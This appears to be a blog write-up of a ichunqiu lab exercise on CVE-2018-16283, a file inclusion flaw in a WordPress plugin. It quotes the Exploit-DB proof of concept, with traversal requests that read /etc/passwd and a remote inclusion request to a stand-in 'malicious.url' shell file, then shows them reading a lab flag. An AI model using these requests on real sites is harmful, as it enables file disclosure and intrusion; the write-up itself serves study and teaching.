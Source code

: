 ```yaml
---
title: "CVE-2018-16283"
date: 2024-07-24
tags: ["春秋云镜","CVE","WordPress"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```



<https://www.exploit-db.com/exploits/45438>


## WordPress Plugin Wechat Broadcast 1.2.0 - Local File Inclusion

```http
# Exploit Title: WordPress Plugin Wechat Broadcast 1.2.0 - Local File Inclusion
# Author: Manuel Garcia Cardenas
# Date: 2018-09-19
# Software link: https://es.wordpress.org/plugins/wechat-broadcast/
# CVE: CVE-2018-16283

# Description
# This bug was found in the file: /wechat-broadcast/wechat/Image.php
# echo file_get_contents(isset($_GET["url"]) ? $_GET["url"] : '');
# The parameter "url" it is not sanitized allowing include local or remote files
# To exploit the vulnerability only is needed use the version 1.0 of the HTTP protocol 
# to interact with the application.

# PoC
# The following URL have been confirmed that is vulnerable to local and remote file inclusion.

GET /wordpress/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd

# Remote File Inclusion POC:

GET /wordpress/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=http://malicious.url/shell.txt
```

## 演示

环境: [春秋云镜 免费空间>CVE-2018-16283](https://yunjing.ichunqiu.com/cve/detail/899)

### 1.验证

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/1.webp)

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd>

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/2.webp)

### 2.利用

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../flag> 

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/3.webp)

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=file:///flag> 

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/4.webp)
